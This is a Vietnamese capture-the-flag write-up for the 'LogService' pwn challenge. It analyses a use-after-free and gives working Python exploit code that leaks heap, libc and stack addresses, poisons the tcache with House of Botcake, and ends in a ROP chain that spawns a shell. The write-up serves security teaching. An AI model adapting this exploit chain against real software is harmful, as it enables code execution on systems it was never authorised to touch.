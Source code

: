 # [pwn] LogService (13 solves)

Log requests and save it with this fast and safe Log server

This is a remote challenge, you can connect with:

nc log.challs.teamitaly.eu 29006

Author: Riccardo Sulis <@ricchi24>

## Phân tích

- Trong hàm `remove_request`, sau khi free chunk đã không xoá con trỏ chunk đó.

```c
  if ( ptr < n_requests )
  {
    free(*((void **)requests + ptr));
    for ( i = ptr; i < n_requests - 1; ++i )
      *((_QWORD *)requests + i) = *((_QWORD *)requests + i + 1);
    send_message(0LL, 2LL, "OK");
```

- Hàm `show_request` có bug uaf để leak heap, stack

```c
  if ( ptr < n_requests )
    send_message(0LL, *((unsigned int *)r_sizes + ptr), *((_QWORD *)requests + ptr));
```

- Cuối cùng hàm `creat_request` cho ta tạo nhiều chunk

```c
  if ( n_requests == 50 )
  {
    send_message(1LL, 30LL, "Max number of requests reached");
    clear_stdin();
  }
```

> Từ các bug trên, ta có thể leak heap, libc
> Vì các con trỏ của chunk được lưu trên heap, ta có thể DBF để environ vào chunk chứa con trỏ => leak stack
> Cuối cùng là ROPchain

## Chuẩn bị

```python
def malloc(size, payload):
    s(p32(0))
    sa(b">", p32(size))
    s(payload.ljust(size, b"\0"))


def show(idx):
    sa(b">", p32(1))
    s(p32(idx))
    p.recv(8)


def free(idx):
    sa(b">", p32(2))
    s(p32(idx))
```

## Khai thác

### Leak heap, leak libc

```python
malloc(0x1000, b"a" * 8)
free(0)
show(0)
p.recv(8)
libc.address = u64(p.recv(8)) - 0x219CE0
info("libc base: " + hex(libc.address))
malloc(0x1000, b"a" * 8)

malloc(0x100, b"a" * 8)
free(2)
show(2)
p.recv(8)
heap = (u64(p.recv(8)) << 12) - 0x1000
info("heap: " + hex(heap))
```

### House of botcake

[House of botcake](https://github.com/wan-hyhty/Techniques#house-of-botcake)

- Ban đầu script để khai thác của mình như này.

```python
for i in range(0, 9):
    malloc(0xF0, b"a" * 8)
for i in range(0, 9):
    free(3)
```

- Ta thấy có 2 chunk unsorted 0x100 không nằm cạnh nhau do `realloc` tạo 1 chunk 0x40.
  ![Alt text](./bin/image-6.png)

- Mình sửa lại script để khi `realloc` nó sẽ lấy trong bin ra thay vì malloc mới.

```python
malloc(0x50, b"a" * 8)
malloc(0x50, b"a" * 8)
free(3)
free(3)

for i in range(0, 9):
    malloc(0xF0, b"a" * 8)

for i in range(0, 9):
    free(5)
```

- Ở đây ta có thể malloc 2 chunk size 0x40 rồi free đi nhưng lúc mình làm thì nhầm 0x50 và nó vẫn hoạt động :)))
  ![Alt text](./bin/image-1.png)

### overlap chunk -> Leak stack

```python
# House of botcake
malloc(0xF0, b"a" * 8)
free(13)
malloc(
    0x1A0,
    b"a" * 0xA0 + p64(0) + p64(0x101) + p64((heap + 0x2030) ^ (heap + 0x1EC0) >> 12),
)
free(15)
```

![Alt text](./bin/image-2.png)

- Mình sẽ ghi đè 1 địa chỉ trong chunk con trỏ, để khi show idx sẽ leak được stack
  ![Alt text](./bin/image-3.png)

```python
malloc(0xF0, b"a" * 8)
malloc(0xF0, p64(libc.sym.environ) + p64(0) * 4 + p64(0x1EFC1 - 0xA0))
show(14)
p.recv(8)
stack = u64(p.recv(8))
info("stack: " + hex(stack))
free(12)
```

- `p64(0x1EFC1 - 0xA0)` mình thêm vào sợ việc ow top chunk khiến cho free malloc khó khăn hơn nên mình phải viết lại
  ![Alt text](./bin/image-4.png)
- free(12) để sử dụng lại chunk 0x100
- free(15) để sử dụng lại chunk 0x1b0

```
  0x100 [ 6]: 0x55555555bec0 ◂— 0x55500000e90c
  0x110 [ 1]: 0x55555555b2f0 ◂— 0x0
  0x1b0 [ 1]: 0x55555555be10 ◂— 0x0
```

### UAF 0x..ec0 -> ROPchain

- Mình sử dụng lại chunk 0x1b0 để UAF chunk 0x100

```python
target = stack - 8 - 0x140
malloc(
    0x1A0,
    b"a" * 0xA0 + p64(0) + p64(0x101) + p64(target ^ (heap + 0x1EC0) >> 12),
)
```

```
0x100 [  6]: 0x55555555bec0 —▸ 0x7fffffffdcb0 ◂— 0x7ff80000232d
```

```python
malloc(0xF0, b"a" * 8)
rop = ROP(libc)
malloc(
    0xF0,
    flat(
        0,
        rop.find_gadget(["ret"]).address,
        rop.find_gadget(["pop rdi", "ret"]).address,
        next(libc.search(b"/bin/sh")),
        libc.sym.system,
    ),
)
```

![Alt text](./bin/image-5.png)

## Kết quả

![Alt text](./bin/image.png)
